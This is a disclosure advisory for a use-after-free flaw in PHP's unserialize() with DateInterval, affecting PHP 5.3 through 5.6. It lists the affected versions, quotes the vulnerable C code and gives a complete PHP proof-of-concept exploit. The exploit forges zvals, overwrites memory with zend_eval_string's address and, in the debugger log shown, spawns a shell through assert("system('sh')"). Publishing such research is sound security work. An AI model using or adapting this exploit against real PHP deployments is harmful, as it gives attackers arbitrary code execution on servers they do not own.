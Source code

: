 #Use After Free Vulnerability in unserialize() with DateInterval
 
Taoguang Chen <[@chtg](http://github.com/chtg)> - Write Date: 2015.2.28 - Release Date: 2015.3.20
 
> A use-after-free vulnerability was discovered in unserialize() with DateInterval object's __wakeup() magic method that can be abused for leaking arbitrary memory blocks or execute arbitrary code remotely.

Affected Versions
------------
Affected is PHP 5.6 < 5.6.7  
Affected is PHP 5.5 < 5.5.23  
Affected is PHP 5.4 < 5.4.39  
Affected is PHP 5.3 <= 5.3.29

Credits
------------
This vulnerability was disclosed by Taoguang Chen.

Description
------------

``` 
static int php_date_interval_initialize_from_hash(zval **return_value, php_interval_obj **intobj, HashTable *myht TSRMLS_DC)
{
	(*intobj)->diff = timelib_rel_time_ctor();

#define PHP_DATE_INTERVAL_READ_PROPERTY(element, member, itype, def) \
	do { \
		zval **z_arg = NULL; \
		if (zend_hash_find(myht, element, strlen(element) + 1, (void**) &z_arg) == SUCCESS) { \
			convert_to_long(*z_arg); \
			(*intobj)->diff->member = (itype)Z_LVAL_PP(z_arg); \
		} else { \
			(*intobj)->diff->member = (itype)def; \
		} \
	} while (0);

#define PHP_DATE_INTERVAL_READ_PROPERTY_I64(element, member) \
	do { \
		zval **z_arg = NULL; \
		if (zend_hash_find(myht, element, strlen(element) + 1, (void**) &z_arg) == SUCCESS) { \
			convert_to_string(*z_arg); \
			DATE_A64I((*intobj)->diff->member, Z_STRVAL_PP(z_arg)); \
		} else { \
			(*intobj)->diff->member = -1LL; \
		} \
	} while (0);
```
 
The convert_to_long()\convert_to_string() leads to the ZVAL and all its children is freed from memory. However the unserialize() code will still allow to use R: or r: to set references to that already freed memory. There is a use after free vulnerability, and allows to execute arbitrary code.
 
Proof of Concept Exploit
------------
The PoC works on standard MacOSX 10.10.2 installation of PHP 5.5.14.

```
<?php

$f = $argv[1];
$c = $argv[2];

$fakezval1 = ptr2str(0x100b83008);
$fakezval1 .= ptr2str(0x8);
$fakezval1 .= "\x00\x00\x00\x00";
$fakezval1 .= "\x06";
$fakezval1 .= "\x00";
$fakezval1 .= "\x00\x00";

$data1 = 'a:3:{i:0;O:12:"DateInterval":1:{s:1:"y";a:2:{i:0;i:1;i:1;i:2;}}i:1;s:'.strlen($fakezval1).':"'.$fakezval1.'";i:2;a:1:{i:0;R:5;}}';

$x = unserialize($data1);
$y = $x[2];

// zend_eval_string()'s address
$y[0][0] = "\x6d";
$y[0][1] = "\x1e";
$y[0][2] = "\x35";
$y[0][3] = "\x00";
$y[0][4] = "\x01";
$y[0][5] = "\x00";
$y[0][6] = "\x00";
$y[0][7] = "\x00";

$fakezval2 = ptr2str(0x3b296324286624); // $f($c);
$fakezval2 .= ptr2str(0x100b83000);
$fakezval2 .= "\x00\x00\x00\x00";
$fakezval2 .= "\x05";
$fakezval2 .= "\x00";
$fakezval2 .= "\x00\x00";

$data2 = 'a:3:{i:0;O:12:"DateInterval":1:{s:1:"y";a:2:{i:0;i:1;i:1;i:2;}}i:1;s:'.strlen($fakezval2).':"'.$fakezval2.'";i:2;O:12:"DateInterval":1:{s:1:"y";a:1:{i:0;R:5;}}}';

$z = unserialize($data2);

function ptr2str($ptr)
{
	$out = "";
	for ($i=0; $i<8; $i++) {
		$out .= chr($ptr & 0xff);
		$ptr >>= 8;
	}
	return $out;
}

?>
```

Test the PoC on the command line, then any PHP code can be executed:

```
$ lldb php
(lldb) target create "php"
Current executable set to 'php' (x86_64).
(lldb) run uafpoc.php assert "system\('sh'\)==exit\(\)"
Process 13472 launched: '/usr/bin/php' (x86_64)
sh: no job control in this shell
sh-3.2$ php -v
PHP 5.5.14 (cli) (built: Sep  9 2014 19:09:25) 
Copyright (c) 1997-2014 The PHP Group
Zend Engine v2.5.0, Copyright (c) 1998-2014 Zend Technologies
sh-3.2$ exit
exit
Process 13472 exited with status = 0 (0x00000000) 
(lldb) 
```
